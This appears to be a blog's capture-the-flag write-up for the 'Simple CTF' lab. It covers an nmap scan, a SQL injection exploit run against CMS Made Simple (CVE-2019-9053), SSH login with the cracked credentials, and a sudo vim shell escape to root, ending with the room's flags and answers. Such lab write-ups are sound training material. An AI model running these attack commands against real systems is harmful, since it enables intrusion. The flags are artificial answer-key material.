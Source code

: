 ```yaml
---
date: 2021-04-29
title: "Simple CTF Write-up"
draft: false
url: "/writeups/SimpleCTF"
categories: ["Write-ups"]
authors:
- name: "Sina "NEXN" JB
linktitle: SimpleCTF write-up - itsNexn
title: SimpleCTF write-up - itsNexn
weight: 1
---
```


## Nmap Scan
nmap:

```
# Nmap 7.91 scan initiated Wed Apr 28 23:52:46 2021 as: nmap -sC -sV -oN scans/nmap 10.10.47.203
Nmap scan report for 10.10.47.203
Host is up (0.16s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.197.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 28 23:53:38 2021 -- 1 IP address (1 host up) scanned in 51.93 seconds.
```
after nmap scan i just realize theres a cms in `/simple` and after scroll a bit:
```
© Copyright 2004 - 2021 - CMS Made Simple
This site is powered by CMS Made Simple version 2.2.8
```
and in `searchsploit` i found theres a `sqli` and i just download the exploit ...

Command:
```bash
python2.7 sq1i.py -u http://10.10.160.249/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```


### Tasks

- How many services are running under port 1000?
```
3
```

- What is running on the higher port?
```
ssh
```

- What's the CVE you're using against the application?
```
CVE-2019-9053
```

- To what kind of vulnerability is the application vulnerable?
```
sqli
```

## SQL Injection

after finding the vulnerability against the application we can now exploit it...

so we download the python2 exploit and then we can start after running exploit
with seclists `/usr/share/seclists/Passwords/Common-Credentials/best110.txt`and the

Command:
```bash
python2 sq1i.py -u http://10.10.31.164/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

we found these creds:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

### Tasks

- What's the password?
```
secret
```

- Where can you login with the details obtained?
```
ssh
```

## SSH

we logged in as `mitch:secret` and we found out theres a `user.txt` on home directory

### Tasks

- What's the user flag?
```
G00d j0b, keep up!
```

- Is there any other user in the home directory? What's its name?
```
sunbatch
```

## Privilege escalation

the easiest way to Privilege escalation is running the linpeas ...

after setup a python http server and get the shell script with `wget`
we can now run it.

**oHHHH yes we can run vim as root without password**
so we can use `GTFOBins` to find the way :
```bash
vim -c ':!/bin/sh'
```
so we got root shell we can now read `/root/root.txt`

### Tasks

- What can you leverage to spawn a privileged shell?
```
vim
```

- What's the root flag?
```
W3ll d0n3. You made it!
```
